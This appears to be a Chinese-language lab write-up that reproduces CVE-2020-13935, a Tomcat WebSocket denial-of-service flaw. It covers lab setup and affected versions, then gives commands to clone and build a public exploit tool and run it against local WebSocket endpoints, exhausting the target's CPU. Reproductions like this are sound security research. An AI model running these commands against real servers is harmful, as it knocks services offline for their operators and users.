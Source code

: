 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs

下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)  
接下来需要操作如下8个步骤：  
1、JDK安装配置  
2、Apache Tomcat安装配置  
3、Eclipse IDE for Java EE安装配置  
4、Tomcat运行时环境在Eclipse IDE for Java EE中配置  
5、Eclipse中建立动态web项目  
6、创建"Hello World" Servlet和JSP视图  
7、在Eclipse中运行动态web项目  
8、导出为WAR文件并部署到Tomcat中  
写好的websocket应用见文件WebSocketServlet.java，部署好的websocket应用见下图  
![image](./a0.png)  
在火狐浏览器的开发者工具的控制台中依次执行WebSocketClient.js中的javascript代码，当执行完“client.connect();”，eclipse中tomcat控制台出现“onOpen::0”时，表示websocket应用部署成功，如下图  
![image](./a1.png)  
导出为DemoTwo.war并部署到tomcat中  

# 0x03 利用条件
Tomcat上部署了WebSocket应用

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  

复现针对自己编写的websocket应用：  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/DemoTwo/endpoint  
执行后靶机系统CPU骤升到100%，如下图  
![image](./a2.png)  
此时，tomcat管理控制台显示如下  
![image](./a3.png)

复现针对自带的websocket应用：  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
![image](./f.png)  
执行如下命令：  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/  
https://www.cnblogs.com/xdp-gacl/p/5193279.html  
https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/

